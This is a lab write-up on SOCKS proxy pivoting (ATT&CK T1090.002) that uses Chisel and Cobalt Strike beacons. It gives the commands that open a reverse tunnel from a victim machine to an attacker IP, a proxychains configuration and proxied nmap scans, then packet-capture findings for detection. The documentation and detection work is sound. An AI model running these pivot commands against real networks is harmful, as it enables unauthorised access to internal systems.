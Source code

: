# T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

Simple layout from the test environment.

```
Attacker machine (Server proxy) -> External facing machine (Client proxy) -> Internal facing machine
```

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Image_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Image_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Image_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Image_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, the attacker will pass the network forwarding data to victim machine via the attacker's machine listening port (in this case is port 443).

![cs_client_socks_1](./Image_T1090.002/cs_client_socks_1.png)

Here is the decoded packet data found in the beacon that sent from teamserver. The command ID 0xE triggers the traffic forwarding function later.

```
Command used in attacker machine
> proxychains nmap 120.10.13.129
```

![cs_client_packet](./Image_T1090.002/cs_client_packet.png)

> Packet count is Command count xD

Screenshot below show the psedocode of beacon's traffic forwarding function.

![cs_client_socket_conn_1](./Image_T1090.002/cs_client_socket_conn_1.png)

## Findings

If network traffic is pass through proxy channel into internal network, you will only see the source IP of the machine where have the client SOCKS proxy installed and the target internal IP.

This can be seen in the packet from screenshot above.
Attacker executes `proxychains nmap 172.16.228.11` from their own machine to internal facing machine `172.16.228.11`, in the network packet data, the source address is the internal IP of the external machine instead of the attacker IP.

The SOCKS proxy port is completely on the attacker (teamserver) side, where it can't be find in the victim (client) side. This means the beacon in the victim machine just a relay to forward the traffic to internal network, while the teamserver will handle the SOCKS proxy and generate traffic forwarding data.

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
